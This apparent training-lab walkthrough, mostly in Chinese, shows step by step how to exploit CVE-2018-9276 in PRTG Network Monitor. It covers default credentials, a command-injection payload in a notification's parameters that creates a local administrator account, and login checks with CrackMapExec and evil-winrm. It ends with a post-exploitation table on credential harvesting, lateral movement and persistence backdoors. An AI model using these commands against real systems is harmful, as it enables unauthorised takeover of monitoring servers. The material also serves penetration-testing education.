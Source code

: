```yaml
---
description: >-
  PRTG 網路監視器是無代理網路監視器軟體。它可用於監控頻寬使用情況、正常運作時間並收集來自各種主機（包括路由器、交換器、伺服器等）的統計資料。 PRTG
  的第一個版本於 2003 年發布。它採用自動發現模式來掃描網路區域並建立設備清單。一旦建立此列表，它就可以使用 ICMP、SNMP、WMI、NetFlow
  等協定從偵測到的設備收集更多資訊。設備也可以透過 REST API 與該工具通訊。該軟體
---
```


# PRTG Network Monitor

## <mark style="color:red;">**1. 發現點**</mark>

### 1️⃣ 發現點

* **Nmap 掃描** 發現：

```bash
sudo nmap -sV -p- --open -T4 10.129.201.50
```

* 發現服務：
  * Web UI 通常在 port `80`、`443` 或 `8080`
  * 顯示 PRTG 網路監控器（PRTG Network Monitor）
* 登入頁面嘗試：

```
http://10.129.201.50:8080
```

* 預設憑證：

```
prtgadmin : prtgadmin
```

* 透過 cURL 確認版本：

```bash
curl -s http://10.129.201.50:8080/index.htm | grep version
```

> 找到版本：**17.3.33.2830**\
> 符合 CVE-2018-9276，屬於 **已知驗證後命令注入漏洞**

## <mark style="color:red;">**2. 測試Payload**</mark>

> 此漏洞存在於「建立 Notification → Execute Program → Parameters」位置，會直接將參數傳入 PowerShell 腳本執行。

#### 操作步驟：

1. 登入 PRTG 控制台
2. 前往：

```
Setup → Account Settings → Notifications
```

3. 點擊 `Add new notification`
4. 設定：
   * 命名：`pwn`
   * 勾選「Execute Program」
   * 從 Program File 下拉選 `Demo exe notification - outfile.ps1`
   * 在「參數 (Parameters)」填入：

```
test.txt; net user prtgadm1 Pwn3d_by_PRTG! /add; net localgroup administrators prtgadm1 /add
```

5. 點 `Save`

## <mark style="color:red;">3. 利用已知漏洞</mark>

* 點選新增的通知旁邊的 `Test` 按鈕
* 會收到 `EXE notification is queued up` 提示
* 因為係盲注（無回顯），所以下一步需要驗證新增帳戶有冇成功

## <mark style="color:red;">4. 驗證本地管理員存取</mark>

#### 用 CrackMapExec 測試：

```bash
sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG!
```

如果出現：

```
[+] APP03\prtgadm1:Pwn3d_by_PRTG! (Pwn3d!)
```

代表用戶已經成功建立並有 admin 權限。

1️⃣ 打開 `/etc/hosts` 檔案：

```bash
sudo nano /etc/hosts
```

2️⃣ 加入目標 IP 與主機名稱映射，例如：

```
10.129.201.50   STMIP
```

3️⃣ 儲存 (`Ctrl+O`)

現在，學生們確信用戶已成功添加，他們需要連接到生成的目標機器，例如使用`Evil-WinRM` ：\


```shell
evil-winrm -i 10.129.201.50 -u prtgadm1 -p 'Pwn3d_by_PRTG!'
```

\


## <mark style="color:red;">5. 連鎖漏洞</mark>

### 5️⃣ 後續利用（連鎖漏洞）

| 階段               | 行動                                                             |
| ---------------- | -------------------------------------------------------------- |
| 已新增管理員帳號         | 使用 `RDP`、`WinRM`、或 `evil-winrm` 登入主機                           |
| 可透過 `evil-winrm` | `evil-winrm -i 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG!`    |
| 取得主機權限           | `whoami` 確認是否為 admin 或 SYSTEM                                  |
| 密碼蒐集             | 查看 `C:\ProgramData\Paessler\PRTG Network Monitor\` 內部檔案可能有明文憑證 |
| 提權               | 如果非 SYSTEM，可用 `token impersonation`、找 SUID、排程提權                |
| 橫向滲透             | 使用 `net view /domain`、`net group /domain` 尋找內部其他主機和 AD 資訊      |
| 持久化              | 建立任務計劃或註冊表開機自啟動後門                                              |
